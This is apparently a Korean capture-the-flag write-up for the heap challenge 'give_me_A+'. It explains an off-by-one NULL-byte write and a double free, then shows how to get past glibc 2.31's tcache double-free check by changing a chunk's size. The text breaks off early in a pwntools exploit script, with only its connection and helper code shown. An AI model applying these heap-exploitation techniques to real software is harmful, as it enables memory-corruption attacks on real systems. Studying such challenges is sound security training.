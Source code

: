 ![image](https://user-images.githubusercontent.com/59759771/98450596-39412300-2181-11eb-88b2-1686ed999936.png)

학생의 이름과 과목명을 입력받을 때 사용되는 `read_line()` 함수입니다. 버퍼의 주소와 길이를 인자로 받아서 `fgets()`로 문자열을 입력받는데, 마지막에 NULL byte를 삽입하는 과정에서 문자열 길이 계산을 잘못해서 off-by-one 취약점이 발생합니다. 만약 `strlen(buf) == len`이라면 `buf[len + 1] = 0;`이 실행됩니다. 문자열 범위의 끝으로부터 한 바이트나 두 바이트 벗어난 위치에 NULL byte를 임의로 삽입할 수 있습니다.

앞에서 학생의 성적을 저장할 때 과목명이 점수보다 뒤쪽에 위치하는 것을 확인했습니다. 과목의 개수를 적절히 조절하면, 청크에서 마지막 과목의 과목명을 다음 청크와 인접하게 만들 수 있습니다. 그러면 off-by-one을 이용하여 다음 청크의 사이즈의 하위 1바이트를 0으로 덮을 수 있게 됩니다.

<br>

### double free bug

![image](https://user-images.githubusercontent.com/59759771/98450878-e3ba4580-2183-11eb-9d1e-f3f35007e578.png)

`delete()`에서 학생의 정보를 삭제할 때, 청크는 free시키는데 `students`에 저장된 청크 포인터는 삭제하지 않습니다. `modify()`에서 학생의 이름은 수정할 수 없으니 UAF를 통한 fd나 bk overwrite는 불가능하고, 이미 free된 청크에 다시 접근해서 한 번 더 free시키는 것은 가능합니다.

<br>

glibc 2.31에는 glibc 2.27과 달리 티캐시에서 double free를 방지하기 위한 보안 검사가 추가되었습니다.

```c
        /* Check to see if it's already in the tcache.  */
        tcache_entry *e = (tcache_entry *) chunk2mem (p);
        /* This test succeeds on double free.  However, we don't 100%
           trust it (it also matches random payload data at a 1 in
           2^<size_t> chance), so verify it's not an unlikely
           coincidence before aborting.  */
        if (__glibc_unlikely (e->key == tcache))
          {
            tcache_entry *tmp;
            LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
            for (tmp = tcache->entries[tc_idx];
                 tmp;
                 tmp = tmp->next)
              if (tmp == e)
                malloc_printerr ("free(): double free detected in tcache 2");
            /* If we get here, it was a coincidence.  We've wasted a
               few cycles, but don't abort.  */
          }
```

malloc.c의 `_int_free()`에서 double free를 검사하는 루틴입니다. 같은 티캐시 엔트리 내에서 링크드 리스트를 따라가면서 현재 free하려고 하는 청크와 같은 청크가 있는지 검사합니다. 이 검사는 같은 티캐시 엔트리 내에서만 이루어지기 때문에, free된 청크의 사이즈를 조작하고 다시 free시키면 각각 다른 티캐시 엔트리로 들어가게 되어 보안 검사를 우회할 수 있습니다.

<br>

---

## exploit

```python
from pwn import *

r = process("./give_me_A+")
# r = remote("srv.cykor.kr", 31003)

def add(name, age, number_of_subjects):
    r.sendlineafter("[+] input menu.\n", 'a')
    r.sendlineafter("[+] input name.\n", name)
    r.sendlineafter("[+] input age.\n", str(age))
    r.sendlineafter("[+] input number of subjects.\n", str(number_of_subjects))

def input_grade(subject_name, score):
    r.sendlineafter("[+] input subject name.", subject_name)
```